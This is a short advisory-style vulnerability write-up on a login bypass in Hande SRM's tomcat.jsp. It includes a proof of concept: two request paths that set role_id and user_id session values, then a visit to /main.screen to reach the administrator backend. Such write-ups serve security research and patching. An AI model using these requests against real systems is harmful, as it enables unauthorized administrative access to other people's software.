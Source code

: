 # Hande SRM tomcat.jsp Login bypass vulnerability

## Vulnerability Description

The Hande SRM tomcat.jsp file has a login bypass vulnerability. The attacker can obtain the permissions of the background administrator by sending the request packet.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Hander SRM </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1686046062155-51fc2944-47d1-40c2-ac6e-c0dfa7c7e180.png)

Verify POC (Tomcat session manipulation)

```plain
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1686046136394-1bd2fed1-a82b-485c-a50a-d292ea08ad4c.png)

Visit the backend

```plain
/main.screen
```